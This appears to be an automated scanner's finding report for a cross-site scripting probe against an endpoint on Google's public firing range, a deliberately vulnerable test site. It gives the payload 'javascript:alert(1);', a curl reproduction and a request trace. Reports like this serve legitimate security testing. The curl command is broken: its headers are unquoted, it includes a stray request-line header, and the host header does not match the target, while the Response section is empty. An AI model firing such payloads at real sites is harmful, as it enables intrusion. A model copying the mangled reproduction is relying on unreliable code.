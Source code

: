 ## Endpoint details

- Scheme: https
- Host: public-firing-range.appspot.com
- Path: /escape/serverside/escapeHtml/css_import
- Query keys: q

**Param:** q

**Attack:** `javascript:alert(1);`

## Evidence

```
javascript:alert(1);
```

## Repro (curl)

```bash
curl -H _line: GET https://www.google.com/search?client=firefox-b-d&q=google+firing+range HTTP/1.1 -H User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:142.0) Gecko/20100101 Firefox/142.0 -H Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8 -H Accept-Language: en-US,en;q=0.5 -H Connection: keep-alive "https://public-firing-range.appspot.com/escape/serverside/escapeHtml/css_import?q=javascript%3Aalert%281%29%3B"
```

## Traffic

### Request

GET https://public-firing-range.appspot.com/escape/serverside/escapeHtml/css_import?q=javascript%3Aalert%281%29%3B

_Headers: 12_

Headers:
- _line: GET https://www.google.com/search?client=firefox-b-d&q=google+firing+range HTTP/1.1
- host: www.google.com
- User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:142.0) Gecko/20100101 Firefox/142.0
- Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
- Accept-Language: en-US,en;q=0.5
- Connection: keep-alive
- Upgrade-Insecure-Requests: 1
- Sec-Fetch-Dest: document
- Sec-Fetch-Mode: navigate
- Sec-Fetch-Site: none
- Sec-Fetch-User: ?1
- Priority: u=0, i

### Response
